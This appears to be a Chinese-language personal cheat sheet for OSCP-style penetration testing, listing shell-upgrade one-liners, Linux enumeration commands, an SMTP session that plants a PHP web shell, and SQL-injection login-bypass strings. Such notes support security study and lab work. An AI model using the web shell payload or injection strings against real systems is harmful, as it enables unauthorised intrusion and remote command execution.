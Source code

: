 ```yaml
---
{"dg-publish":true,"permalink":"/tips和一些工具/平时用的一些命令 更新中/","tags":["oscp"]}
---
```



# linux提权

# 用过的交互式

交互式shell 
python3 -c 'import pty; pty.spawn("/bin/bash")' 

python -c 'import pty; pty.spawn("/bin/bash")'

os.execute("/bin/sh")
{ #abc63a}


# 一些枚举
hostname  
主机名

uname -a
印系统信息，提供有关系统使用的内核的更多详细信息

/pro/version
查看 /proc/version 提供有关内核版本和其他数据的信

/etc/issud
/etc/issue 文件来识别系统 

ps -aux
选项将显示所有用户的进程 （a），显示启动进程的用户 （u），并显示未连接到终端的进程 （x）。查看 ps aux 命令输出，我们可以更好地了解系统和潜在漏洞。

ps -axjf
查看进程树

env
环境变量

sudo -l
可用于列出可以使用 sudo 运行的所有命令

crontab -l
检查定时计划

# smtp 邮件木马
登录 smtp 服务发送邮件

```
MAIL FROM: test
RCPT TO: 用户
data
<?php system($_GET['shell']); ?>
.
QUIT
```
# sql万能密码
```
 1=1 -- - 

' or '' = '  
```